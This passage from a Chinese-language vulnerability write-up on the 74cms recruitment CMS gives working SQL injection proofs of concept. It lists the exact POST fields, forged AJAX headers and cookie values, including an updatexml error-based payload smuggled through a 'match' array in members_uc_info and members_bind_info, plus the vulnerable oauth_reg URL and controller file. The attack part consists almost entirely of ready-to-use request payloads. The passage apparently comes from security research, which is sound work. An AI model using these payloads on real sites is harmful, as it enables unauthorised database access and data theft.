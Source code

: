 ![image](img/bccf1bd2fc6286ba15383f8d39ae8cad.png)

```
这里我要大概讲一下参数的问题
post: 
reg_type=2            // 必须为2 为了绕过一个注册判断，为1的话，会直接创建帐户，导致无法利用漏洞
utype=2         // 判断会员类型的也必须为2 为1会直接创建一条数据，导致无法利用漏洞      
ucenter=bind           // 必须为bind因为要靠他，获取cookie(members_uc_info)并且合并为$data数组进行利用
  unbind_mobile=1       // 只要有此字段即可，只是单纯为了满足流程判断的

cookie:

members_uc_info[reg_type]=1;         // 必须为1 满足流程需要

members_uc_info[utype]=2;         // 必须为2 满足流程需要

members_uc_info[mobile][0]=match;    // 框架漏洞利用

members_uc_info[mobile][1][0]=aaaaaaa") and updatexml(1,concat(0x7e,(select user())),0) – a;  // 这里输入注入语句 `headers:  // 伪造ajax操作

Content-Type: application/x-www-form-urlencoded

X-Requested-With: XMLHttpRequest` 
```

## 0x07 74cms独有框架漏洞第四处

```
文件：74cms\upload\Application\Home\Controller\MembersController.class.php
方法：oauth_reg (
是否需登录：需要
登录权限：普通用户/企业用户都可
url: http://74cms.test/index.php?m=&c=Members&a=oauth_reg
post:
    username = 自己去平台随便注册个账号然后输入那个账号
    password = 自己去平台随便注册个账号然后输入那个密码
cookie:
    members_bind_info[type][0]=match;
members_bind_info[type][1][0]=aaaaaaa") and updatexml(1,concat(0x7e,(select user())),0) -- a; 
```
